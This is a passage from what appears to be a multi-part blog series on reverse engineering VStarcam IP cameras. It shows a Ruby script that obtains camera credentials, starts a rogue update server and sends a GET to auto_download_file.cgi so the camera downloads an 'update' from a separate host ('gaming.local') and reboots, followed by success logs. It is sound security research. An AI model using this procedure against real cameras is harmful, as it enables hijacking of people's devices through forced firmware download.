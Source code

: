 sleep 5
client = Client.new
client.run
until client.state == :main_phase
  sleep 0.1
end

spawn do
  `bin/update_server &`
end
puts "Ran update server"
sleep 10
puts 
client.send_udp_raw_get_request("/auto_download_file.cgi", 
                                   server: "gaming.local", 
                                   file: "/update", 
                                   type: "0",
                                   resevered1: "", 
                                   resevered2: "", 
                                   resevered3: "", 
                                   resevered4: "",
                                   loginuse: creds[:user],
                                   loginpas: creds[:pass],
                                   user: creds[:user],
                                   pwd: creds[:pass])
sleep 10
client.close
</code></pre>

Which when run will start the anti-client, get the credentials, then use them to log into the camera, run the update server, then send a get request for the auto_download_file.cgi.

Just for reference, I know "resevered" is misspelled, it was actually how they wrote it in the client.

<center>
<img src="{{ site.baseimg }}/images/vstarcam/wireshark/auto_dl.png" style="width: 100%; height: 100%;">
</center>

Eventually we get a reply back saying everything went OK, and we can also see in Wireshark that the file was downloaded and that the camera rebooted.

<pre><code>
I, [2019-03-21 07:59:07 -07:00 #10950]  INFO -- : SENT GET /auto_download_file.cgi?server=gaming.local&file=/update&type=0&resevered1=&resevered2=&resevered3=&resevered4=&loginuse=admin&loginpas=password&user=admin&pwd=password
I, [2019-03-21 07:59:07 -07:00 #10950]  INFO -- : REPLY RECIEVED FROM CAMERA
I, [2019-03-21 07:59:08 -07:00 #10950]  INFO -- : Sent Pong
I, [2019-03-21 07:59:08 -07:00 #10950]  INFO -- : RESPONSE RECIEVED FROM CAMERA 46
I, [2019-03-21 07:59:08 -07:00 #10950]  INFO -- : 
result= 0;
var result="ok";
I, [2019-03-21 07:59:10 -07:00 #10950]  INFO -- : Sent Pong
I, [2019-03-21 07:59:11 -07:00 #10950]  INFO -- : Sent Pong
</code></pre>

[Part 11 &gt;&gt;](/vstarcam/11)